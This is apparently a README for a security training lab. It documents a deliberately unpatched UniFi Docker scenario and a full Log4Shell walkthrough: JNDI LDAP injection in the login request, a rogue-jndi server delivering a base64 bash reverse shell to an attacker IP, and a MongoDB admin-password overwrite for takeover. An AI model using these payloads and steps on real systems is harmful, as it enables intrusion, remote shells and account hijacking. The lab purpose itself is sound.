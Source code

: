 # Log4j

The folder `scenarios/log4j` holds the files related to the Log4j vulnerable scenario.

To understand what the Log4j vulnerability involves, the following resources were explored:

- **Cloudflare**
  - https://blog.cloudflare.com/exploitation-of-cve-2021-44228-before-public-disclosure-and-evolution-of-waf-evasion-patterns/
  - https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/
  - https://blog.cloudflare.com/actual-cve-2021-44228-payloads-captured-in-the-wild/
- **LunaSec**
  - https://www.lunasec.io/docs/blog/log4j-zero-day/
- **LiveOverflow**
  - https://www.youtube.com/watch?v=kvREvOvSWt4
- **John Hammond:**
  - https://www.youtube.com/watch?v=7qoPDq41xhQ
- **TryHackMe**
  - https://tryhackme.com/room/solar#
  - https://m3n0sd0n4ld.github.io/thm/Lumberjack-Turtle/
  - https://www.youtube.com/watch?v=lJeAgQQaDEw (Shows how to update shell to Meterpreter)
- **SnykLearn**
  - https://learn.snyk.io/lessons/log4shell/java/
- **Reddit (Large Resource)**
  - https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/

## GitHub-Related References

- **GitHub**
  - Log4j Obfuscating Strings: https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words
  - Log4j POC: 
  - https://github.com/cyberxml/log4j-poc
  - https://github.com/kozmer/log4j-shell-poc
  - https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
  - Log4j Vulnerable App: https://github.com/christophetd/log4shell-vulnerable-app
  - YARA rules (DETECTION): https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b
  - Unifi: https://github.com/puzzlepeaches/Log4jUnifi
  - MarshalSec (Malicious LDAP): https://github.com/mbechler/marshalsec

This scenario is based on the Tier 2 HackTheBox **Unified** challenge and in the [SprocketSecurity blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi).

To reproduce a vulnerable version of Unifi Network Application the Docker container used was adapted from [goofball/unifi](https://github.com/goofball222/unifi). The version (which can also be customized) is `6.4.54`. 

Typically, most of the Docker images present in this source were patched against Log4j, for instance, through the `JVM_EXTRA_OPTS=-Dlog4j2.formatMsgNoLookups=true` environment variable present in the respective Dockerfile. This turns off variable lookups in the Log4j logging tool, which is vulnerable, meaning the final attack is unsuccessful.

After finding this was an issue in our vulnerable scenario, this option was removed from the Dockerfile. It's also important to notice that this Dockerfile is also built with a MongoDB database that supports the UniFi Network Application and where users are saved, according to [SprocketSecurity blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi).

> Deployment of the scenario was automated using Ansible. This may suffer changes in the future.

## Other Important Aspects During Setup

Initially, the HTTPS connection was insecure when accessing the UniFi Application Network web interface because a trusted CA didn't sign the presented certificate in the TLS connection. To overcome this issue, we created a CA, as in the `ca/` folder. 

To achieve this, the commands in `ca/cmds.sh` were issued:

```bash
# Generate CA keys (private and public keys)
openssl req -x509 -newkey rsa:4096 -sha256 -days 3650 -keyout ca.key -out ca.crt

# Generating Certificate Signing Request (notice the subjectAltName which is mandatory, at least in Firefox!)
openssl req -newkey rsa:2048 -sha256 -keyout server.key -out server.csr -subj "/CN=example-domain.ui.com/O=UniFi/C=US" -passout pass:pass -addext "subjectAltName = DNS:example-domain.ui.com"

# Generate Server Public-key Certificate
openssl ca -config openssl.cnf -policy policy_anything -md sha256 -days 3650 -in server.csr -out server.crt -batch -cert ca.crt -keyfile ca.key

# Remove Password from server's private key
openssl rsa -in server.key -out server_nopass.key
```

> Notice the need for the `openssl.cnf`, `serial`, `demoCA/`, and `index.txt` files/folders.

Afterward, the private key of the issued certificate without password protection (`server_nopass.key`) was copied into the `unifi-certs/` folder (this file was named **privkey.pem**), which is where our Docker bind mount is located. This is where UniFi fetches its SSL certificates.

*We've forced UniFi always to fetch the SSL certificates on every run, as this wasn't happening on every run by default. These changes were enforced in the `entrypoint-functions.sh` file*. 

Then, regarding the **fullchain.pem**, we simply used:

```bash
cat server.crt ca.crt > fullchain.pem
```

Notice there is a need to only include certificate information inside this file. No extra information should be present. The final format should be something like this:

```
-----BEGIN (CA) CERTIFICATE-----
#######################################
-----END (CA) CERTIFICATE-----
-----BEGIN (SERVER) CERTIFICATE-----
#######################################
-----END (SERVER) CERTIFICATE-----
```

Then, we needed to include our CA's public-key certificate by default on the attacker's Kali machine so that the page would appear safe when they visited the UniFi Network Application web interface. This was accomplished using the `policies.json` file in the `setup/` folder, where all the setup files (using Jinja2 templates) are present. The CA was defined as trusted also system-wide. The `entrypoint.sh` is the one that is triggered at the end and uses all the others.

Furthermore, a Selenium script, `setup/setup.py` was developed, being its primary purpose of completing the setup Wizard that appears on every start-up of the UniFi web interface. It creates an administrator user as specified in the credentials of the `all.yml` Ansible file. The `setup/requirements.txt` file holds the respective dependencies for the Selenium script to run.

# Exploit

Initially, I tried running exploits related to [TryHackMe Solr](https://tryhackme.com/room/solar#), but due to the Java version used by UniFi, it didn't work. It used [marshelsec](https://github.com/mbechler/marshalsec), a malicious LDAP server that redirected the LDAP request to a simple HTTP server that held a malicious Java payload.

Therefore, the solution presented in [SprocketSecurity](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) was taken into consideration.

First, we test if the Log4j vulnerability indeed exists. We can also visit the UniFi Network Application at `https://example-domain.ui.com:8443`.

In the attacker's machine, we run `nc -lnvp 9999`, and in another terminal, we can run:

```bash
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.135.0.2:9999/whatever}","strict":true}'
```

> 172.135.0.2 is the attacker's machine IP address. Notice the "remember" parameter as the one vulnerable to the Log4j attack.

If we receive a connection in `nc`, we know the application is vulnerable to Log4j, which indeed is.

Then, by doing the following: 

```bash
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

We are using [rogue-jndi](https://github.com/veracode-research/rogue-jndi), a malicious LDAP application that creates an HTTP server to inject the payload.

We then generate our payload, which is:

```bash
echo 'bash -c bash -i >&/dev/tcp/172.135.0.2/4444 0>&1' | base64
```

We set up our netcat listener using `nc -lnvp 4444`, and then we run:

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTcyLjEzNS4wLjIvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "172.135.0.2"
```

By running:

```bash
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.135.0.2:1389/o=tomcat}","strict":true}'
```

In our Netcat listener, we obtain a Reverse Shell with access to the victim machine.

> This [GitHub repository](https://github.com/puzzlepeaches/Log4jUnifi) specifies the same attack in an automated way using a Python script.

> ***The SprocketSecurity post dives deeper into lateral movement, which can also be interesting. For instance, changing UniFi's login page credentials, so we can enter it and potentially access new devices sitting in the Mesh network.***

Firstly, we can list the contents of the Administrators in MongoDB:

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.4.4
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.4.4
{
"_id" : ObjectId("64750f87f19ea8014a2ceb6d"),
"name" : "test_user",
"email" : "admin@hotmail.com",
"x_shadow" : "$6$msad4FLZ$WwZoWNYAGbcGY3bF8HVBQ.t.69dt/
ogu1nsmeTjsorz4dBl3Q0Waoya35R.Gm0qEgPoVsUorIhVRVpoiG8cFo/
",
"time_created" : NumberLong(1685393287),
"last_site_name" : "default"
}
```

Then, we generate the SHA-512 hash of the password string "mypassword", which will be used in the login page: `mkpasswd -m sha-512 mypassword`.

At last, we update the Administrator's password in MongoDB with the one we created using: `mongo --port 27117 ace --eval ’db.admin.update({"_id":ObjectId
("ADMIN_OBJECT_ID")},{$set:{"x_shadow":"$6$zsmtIX0rAM.
G4P8a$TKt4eg15VC11zpQaCVS6nLHdOYOzlfjO5m3Tvle7rtc1SOvMRYTT0jBBnRc
CqY5lAOLDNst3xfGQdX99GtpD0."}})’`.

We can now successfully use `test_user` as the username and `mypassword` as the password to login in UniFi's dashboard.


> There is also the possibility of upgrading to a better shell.